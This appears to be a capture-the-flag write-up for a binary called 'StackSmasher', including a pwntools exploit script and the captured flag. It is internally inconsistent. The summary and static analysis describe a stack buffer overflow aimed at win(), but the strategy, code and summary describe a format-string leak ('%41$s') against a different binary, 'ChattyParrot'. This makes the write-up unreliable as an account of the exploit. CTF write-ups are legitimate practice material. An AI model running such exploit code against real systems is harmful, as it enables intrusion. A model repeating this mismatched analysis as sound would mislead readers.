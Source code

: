 # StackSmasher - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/StackSmasher.gif)

---

## Challenge Summary

The StackSmasher binary contains a buffer overflow vulnerability in the func() function, where user input is read into a 32-byte buffer, but 128 bytes are allowed. This allows an attacker to smash the stack and control the program's execution. The goal is to exploit this vulnerability to call the win() function, which prints the flag stored in the FLAG_VAL environment variable.

To achieve this, we must bypass the checks in the win() function by calling step1 and step2 in the right order to make the condition true and trigger the flag output.

## Binary Information

```bash
$ file StackSmasher
```

![Alt text](img/2.png)

```bash
$ checksec StackSmasher
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf("Input username:");
read(0, buf, 0x80uLL);  // Input is read into buf
```

![Vulnerable Code](img/4.png)

```c
return printf("Your name is %s", buf);  // Printed input
```

![Buffer Code](img/5.png)

- The `func()` function reads 128 bytes of input into the 32-byte buffer `buf`, causing a **buffer overflow**.
- This allows control over the **return address**, enabling the attacker to redirect execution to the `win()` function.

### `win()` Function

```c
if (first && second)
    return puts(s);  // Prints the flag
```

- The `win()` function requires both `first` and `second` to be set to `1` to print the flag.

### `step1()` and `step2()` Functions

```c
void step1() { first = 1; }
void step2() { second = 1; }
```

- The attacker can call `step1()` and `step2()` by exploiting the buffer overflow to trigger the flag print in `win()`.

---

## Exploit Strategy

### Step 1: Leak Memory Address

We exploit the format string vulnerability by sending a payload containing `%p` and `%s` to leak memory addresses. This allows us to:

- Leak the address of the `FLAG_VAL` environment variable.

### Step 2: Extract the Flag

Using the leaked memory addresses, we can:

- Access the **value of `FLAG_VAL`** by reading the content at the leaked address, which contains the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host ctf.mf.grsu.by --port 9077
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ChattyParrot')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9077)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env = env_vars ,*a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

payload = b'%41$s'
io.sendline(payload)
io.recvuntil(b'Input your phrase:')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")





```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{J35KiI_P4RR07_Drug_M47u3}
```

